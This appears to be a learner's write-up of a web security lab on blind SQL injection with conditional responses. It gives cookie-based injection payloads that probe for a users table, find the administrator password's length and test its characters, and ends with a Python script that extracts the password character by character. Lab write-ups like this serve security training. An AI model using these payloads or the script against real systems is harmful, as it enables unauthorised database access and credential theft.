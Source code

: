 # Lab: Blind SQL injection with conditional responses

test : if we can use sql injection
```
payload : xyz' or 'a'='a
```
Test if we have table users
```
payload: xyz' or substring((select 'a' from user),1,1) = 'a
```
test if we have column password :
```
xyz' OR SUBSTRING((SELECT CONCAT(substring(u.password,1,1),'a') FROM Users as u where u.username='administrator' LIMIT 1), 2, 1) = 'a
```
find the length of the password. 20 characters ! 
```
aa' or  length((select password from users where username='administrator' limit 1)) = '20  # 20 characters ! 
```
test if the letter greater than 't' : 
```
xyz' OR SUBSTRING((SELECT password FROM Users as u where u.username='administrator' LIMIT 1), 1, 1) > 't
```
test if the letter = 'x' : 
```
xyz' OR SUBSTRING((SELECT password FROM Users as u where u.username='administrator' LIMIT 1), 1, 1) = 'x
```
So I decided to write a small python script to detect the password: 
```python
import requests
from requests.structures import CaseInsensitiveDict
import string
import time

# cookie = azeaze
url = '' # your URL here
array_string = list(string.ascii_lowercase)
array_number = list(string.digits)
array_string.extend(array_number)
password = []

# password have 20 characters , start with 0

for x in range(20):
    # for each value in the array_string
    print(f"hello {x}")
    for i in range(len(array_string)):
        headers = CaseInsensitiveDict()
        TrackingId = f"xyz' OR SUBSTRING((SELECT password FROM Users as u where u.username='administrator' LIMIT 1), {x+1}, 1) = '{array_string[i]}"
        headers["Cookie"] = f"TrackingId={TrackingId}; session=vhEqspOijiN2CuVWZIvJVN0hdWAF46AG" # this work with this header !!
        print(headers)
        resp = requests.get(url,headers=headers)
        if resp.headers['Content-Length'] == '1694':
            print("add this letter : %s" %{array_string[i]})
            password.append(array_string[i])
            
            break
        time.sleep(0.5) # wait 0.5 sec after next request
    time.sleep(1) # wait 1 sec for next loop of the chaine

print("".join(password))
```
